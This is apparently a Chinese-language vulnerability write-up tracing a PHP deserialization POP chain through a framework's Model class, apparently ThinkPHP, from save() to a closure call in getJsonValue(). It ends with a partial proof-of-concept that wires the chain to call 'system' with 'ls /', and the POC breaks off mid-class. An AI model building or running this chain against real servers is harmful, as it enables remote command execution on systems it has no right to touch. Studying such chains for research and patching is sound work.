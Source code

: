 [![](assets/1709530629-6c8026c8fd995e5fbfe2f31a4dfecbd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304110940-a4152aaa-d9d4-1.png)

通过分析，发现$closure 和$value 都可控，得到最后触发点

```bash
protected function getJsonValue($name, $value)
  {
    if (is_null($value)) {
      return $value;
    }

    foreach ($this->withAttr[$name] as $key => $closure) {
      if ($this->jsonAssoc) {
        $value[$key] = $closure($value[$key], $value);
      } else {
        $value->$key = $closure($value->$key, $value);
      }
    }
```

得到一条完整的 POP 链 Model.php => save() =>isEmpty() | updateData() => checkAllowFields() => db() => $this->table . $this->suffix=> 全局搜索 toString() => model\\concern\\Conversion.php => toJson() => toArray() => foreach() => getAttr($key) => getData()=> getValue() =>$value => getData($name) => getRealFieldName() => $fieldName/$data/$value 可控 => 返回 getValue() 方法=> 绕过两个 if 判断 => $this->withAttr 和$this->json 可控 => getJsonValue() => $this->jsonAssoc => 触发$closure($value\[$key\], $value)  
编写 POC

```bash
<?php
namespace think{
    abstract class Model{
        private $lazySave = false;
        private $data = [];
        private $exists = false;
        protected $table;
        private $withAttr = [];
        protected $json = [];
        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls /']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
```